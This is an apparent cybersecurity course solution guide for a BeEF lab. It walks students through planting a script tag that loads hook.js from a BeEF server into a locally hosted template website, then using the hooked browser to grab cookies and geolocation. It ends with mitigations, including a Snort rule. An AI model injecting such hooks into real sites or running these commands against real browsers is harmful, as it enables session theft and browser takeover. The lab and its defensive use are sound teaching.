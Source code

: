 ## Solution Guide: BeEF

In this activity, you explored how malicious JavaScript can be obfuscated within a legitimate website to establish a trust relationship with the victim.

---

1. In Kali, open a terminal window and run `sudo beef-xss`.
   
      This window contains the malicious JavaScript that you will use to hook victim's browser.
      
      - What is the script?
      
        - `<script src=”127.0.0.1:3000/hook.js” type=”text/javascript”></script>`
      
      - Your script should look similar to the one below:
      
      ```html
      <!doctype html>
      <!--- Website template by freewebsitetemplates.com--->
      <html>
      <head>
               <meta charset="UTF-8">
               <meta name="Viewport" content="width=device-width, initial-scale=1.0">
               <title>Space Science Website Template</title>
               <link rel="stylesheet" href="css/style.css" type="text/css">
               <link rel="stylesheet" type="text/css" href="css/mobile.css">
               <script src="js/mobile.js" type="text/javascript"></script>
               <script src="http://127.0.0.1:3000/hook.js"></script> # Updated malicious javascript. 
      </head>
      <body>
      ```
            
2. In the original terminal window, start the Apache web server:
   
   - Run `sudo service apache2 start`
      
3. Open the `/var/www/html/index.html` file and paste the malicious JavaScript.

   - Run `sudo nano /var/www/html/index.html` to open the file. 
      
   - Paste the malicious JavaScript inside the HTML header section, on its own line.
      
      - Save the file and exit. 
   
   - Restart the Apache web server.
     
     - `service apache2 restart`
      
4. Open a web browser and click the **BeEF Authentication** shortcut in the shortcut toolbar. Sign in with:
      
      - Username: `beef`
      - Password: `cybersecurity`
   
5. Acting as the victim open Firefox and navigate to localhost using the URL.
      
      - After the page loads, return to the BeEF framework.

6. In Kali, click on **Commands** and perform at least three successful exploits of your choosing.
   
      - Document your findings and be prepared to share with the class.
      
         Results will vary, but might include: 
         
         - Use Get Geolocation to reveal the location of the user. 
         - Use Get Cookie to reveal the users cookie. 
      
            
7. What mitigation strategies would you suggest to the client to defend against client-side attacks?

   - Any of the options below:

      - The Vegan Chrome browser extension, which is used to detect BeEF hooks.
   
      - Add an emerging threats Snort rule to the company’s IDS as follows: 
      
         `alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (flow:to_server,established; content:"Cookie|3a 20|BEEFSESSION=";)`
   
      - Implement a Content Security Policy.

### Bonus

Perform an attack that displays the message "You've been hacked!" when the victim revisits the malicious webpage.

   -  In BeEF, use the `webcam` command to enter the message in the text box, then click **Execute**. Refresh the webpage on the victim's machine to reveal the message.

---

### Copyright

Trilogy Education Services © 2020. All Rights Reserved.
